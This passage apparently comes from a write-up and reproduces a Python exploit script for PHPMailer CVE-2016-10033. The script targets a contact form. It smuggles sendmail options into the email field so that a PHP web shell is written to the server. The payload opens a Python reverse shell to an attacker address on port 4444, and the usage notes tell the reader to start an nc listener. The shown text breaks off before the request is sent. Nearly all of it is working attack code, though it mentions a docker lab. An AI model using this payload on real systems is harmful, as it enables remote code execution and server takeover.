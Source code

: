 <p>
For reference, below you can find the version I used after all of the necessary modifications.
</p>

```
# coding: utf-8
"""
# Exploit Title: PHPMailer Exploit v1.0
# Date: 29/12/2016
# Exploit Author: Daniel aka anarc0der
# Version: PHPMailer < 5.2.18
# Tested on: Arch Linux
# CVE : CVE 2016-10033

Description:
Exploiting PHPMail with back connection (reverse shell) from the target

Usage:
1 - Download docker vulnerable enviroment at: https://github.com/opsxcq/exploit-CVE-2016-10033
2 - Config your IP for reverse shell on payload variable
4 - Open nc listener in one terminal: $ nc -lnvp <your ip>
3 - Open other terminal and run the exploit: python3 anarcoder.py

Video PoC: https://www.youtube.com/watch?v=DXeZxKr-qsU

Full Advisory:
https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html
"""

from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://192.168.1.23/contact.php'
backdoor = '/shell.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.1.22\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

```